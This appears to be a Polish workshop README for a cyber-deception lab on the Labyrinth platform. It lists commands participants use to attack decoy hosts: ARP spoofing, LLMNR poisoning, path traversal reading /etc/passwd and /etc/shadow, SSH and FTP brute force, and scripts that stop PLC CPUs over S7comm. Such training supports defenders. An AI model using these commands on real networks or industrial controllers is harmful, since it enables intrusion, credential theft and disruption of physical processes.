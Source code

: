 # Witamy na Advanced Threat Summit 2023

Wszystko, czego możesz potrzebować podczas warsztatów, jest dostępne w tym repozytorium.

## Uzyskiwanie dostępu
Na początek przejdź do naszego stanowiska testowego:

1. **Poświadczenia do AdminVM** - możesz użyć dowolnej przeglądarki internetowej:
```
URL: 
Username:
Password:  
```
2. **Poświadczenia do atakującego hosta** - z tego hosta będziesz przeprowadzać ataki. Użyj SSH i następujących
Poświadczeń: 
```
Host:
Username:
Password:
```
## Terminologia, która będzie dzisiaj używana
Ze względu na fakt, że dziś używamy platformy Labyrinth Deception jako przykładu platformy cyber decepcji, ma ona swoje własne terminy, które będą dziś aktywnie wykorzystywane::

1.	**Point (Punkt)** = wabik sieciowy, przynęta, spreparowane usługi sieciowe.
> [!NOTE]
> Punkt NIE JEST oddzielną maszyną wirtualną.

2.	**Honeynet** = segment sieci, w którym działają Punkty. Służy do określenia sieci VLAN, w której mają działać Punkty.

3.	**Seeder	Tasks** = wabiki plikowe, nawigacja okruszkowa używana do logicznego łączenia prawdziwej i spreparowanej infrastruktury.

4.	**Seeder Agent** = program, który rozprowadza Seeder Tasks na rzeczywistych hostach.
5. **AdminVM (konsola zarządzania)** = główny moduł kontrolujący system.
6. **WorkerVM (węzeł roboczy)** = węzeł, na którym uruchomione są Punkty.

## Transkrypcja poleceń
Ponadto udostępniamy transkrypcję wszystkich poleceń, aby ułatwić korzystanie z nich. Nawet jeśli przegapiłeś jakąkolwiek część prezentacji, możesz skorzystać z tych notatek, aby kontynuować ćwiczenia.

> [!IMPORTANT]
> **<any data>** wskazuje, że należy wkleić własne dane, które są wymienione wewnątrz nawiasów.
>
> **[options]** wskazuje, że ta część (lub części) polecenia jest opcjonalna i może zostać pominięta. Wybór wielu opcji jest wyświetlany za pomocą / (ukośnika).

#### Przypadek 1: wykrywanie skanowania sieci
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```
#### Przypadek 2: łączenie się z hostem przy użyciu danych z wabików plikowych (breadcrumbs)

1. Przejdź do Seeder Agents -> Tasks
2. Wybierz ssh_txt_credentials lub ssh_config z listy
3. Kliknij w trzykropek, a następnie Details
4. Użyj tych poświadczeń, aby się zalogować:
```
ssh <user>@<Point IP>
```
#### Przypadek 3: ARP spoofing

```
sudo ettercap -i <interface> -T -M arp /<host 1>// /<host2>//
```
Alternatywnie można użyć bettercap:
```
sudo bettercap
net.probe on
net.show
set arp.spoof.targets <Point IP>
set arp.spoof.fullduplex false
arp.spoof on
// after some time
arp.spoof off
```
Odnośnik: [ettecap](https://www.ettercap-project.org/) i [bettercap](https://github.com/bettercap/bettercap) source

#### Przypadek 4: LLMNR / NBT-NS Poisoning

W tym celu użyjemy programu *Responder*. Jest on już zainstalowany. Wszystko, co musisz zrobić, to uruchomić polecenie:
```
cd Responder
sudo python2 Responder.py -I eth0
```
Odnośnik: [Responder source](https://github.com/SpiderLabs/Responder)

#### Przypadek 5: S7comm Malformed PDU

W tym przypadku istnieje [skrypt](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) dostępny w tym repozytorium - wystarczy go uruchomić:

```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Lub:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```

#### Przypadek 6: Lokalne dołączanie plików
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
#### [Zaawansowany] Przypadek 7: ponowne użycie poświadczeń

1. Znajdź serwer WWW
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
2. Wykonaj LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
Lub:
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```
3. Skonfiguruj listę słów
```
cd wordlists
nano brute.dict
```
4. Wykonaj bruteforce SSH
```
hydra -l <username> -P brute.dict <IP of the ssh host> ssh -t 4 
```
5. Zaloguj się do hosta
```
ssh <user>@<Point IP>
```
6. Ponowne użycie poświadczeń do połączenia z innym hostem
```
ssh <user>@warrior.labyrinth.tech
```

#### [Zaawansowany] Przypadek 8: atakowanie sieci przemysłowych

1. Przeszukanie sieci w poszukiwaniu serwera FTP
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Połącz się z serwerem FTP
Spróbuj połączyć się anonimowo:
```
ftp <FTP IP address>
```
Wykonaj bruteforce FTP:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Sprawdź znaleziony plik
```
ls -la
less <file>
```
4. Wykonać żądanie sterowania CPU S7comm
```
cd S7_scripts
python2 s7300stop.py 172.16.132.4
```
Ponadto można spróbować uruchomić komunikat startowy CPU:
```
python2 s7300cpustart.py 172.16.132.2
```

Odnośnik: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## Informacje o platformie Labyrinth 
Labyrinth to zespół doświadczonych inżynierów cyberbezpieczeństwa i testerów penetracyjnych, który specjalizuje się w opracowywaniu rozwiązań do wczesnego wykrywania i zapobiegania cyberzagrożeniom.

Techniki decepcji zapewniają atakującym zasadniczą przewagę nad obrońcami, którzy nie są w stanie przewidzieć kolejnego ruchu napastników. **NASZĄ WIZJĄ** jest przesunięcie układu sił na korzyść obrońców.

**NASZĄ MISJĄ** jest dostarczenie wszelkiego rodzaju organizacjom prostego i wydajnego narzędzia do jak najwcześniejszego wykrywania napastników wewnątrz sieci korporacyjnej.

Więcej informacji o platformie: https://labyrinth.tech/ 
